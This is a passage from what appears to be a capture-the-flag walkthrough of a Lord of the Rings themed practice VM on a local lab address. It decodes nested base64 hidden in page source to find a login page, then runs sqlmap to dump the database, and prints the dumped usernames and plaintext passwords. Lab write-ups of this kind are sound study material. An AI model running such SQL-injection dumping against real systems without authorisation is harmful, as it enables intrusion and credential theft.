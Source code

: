OK, let's search for that /config.php file... 

    http://192.168.1.28:1337/config.php

And we have another page!

> Note: I realized after all of this that typing whatever in the URL,
> you get that page. But it is good practice just to not go typing
> `/mordor` everywhere...

If we take a look to the page source, we find something very, VERY interesting:

    THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh

From my experience, it looks like a **base64** hash. So let's open **[**CyberChef**](https://gchq.github.io/CyberChef/)** (put this website in your bookmarks. Really. You'll use it a lot during CTFs).

Once we decrypt it, we get another **base64** hash and a hint:

    Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!

So let's decrypt the decrypted hash:

    /978345210/index.php

Looks like we have a URL! Now we are talking business...

## Exploitation

We are now facing some kind of login page. And tha means... **DATABASES!** Let's try some **SQLi with SQLMAP.**

    sudo sqlmap -u http://192.168.1.28:1337/978345210/index.php/ --dump all --forms

And after the magic happens... We have a DB dump: **Webapp**.

    Database: Webapp
    Table: Users
    [5 entries]
    +----+------------------+----------+
    | id | password         | username |
    +----+------------------+----------+
    | 1  | iwilltakethering | frodo    |
    | 2  | MyPreciousR00t   | smeagol  |
    | 3  | AndMySword       | aragorn  |
    | 4  | AndMyBow         | legolas  |
    | 5  | AndMyAxe         | gimli    |
    +----+------------------+----------+

**USER:** smeagol
**PASS:** MyPreciousR00t

Let's login with these credentials...
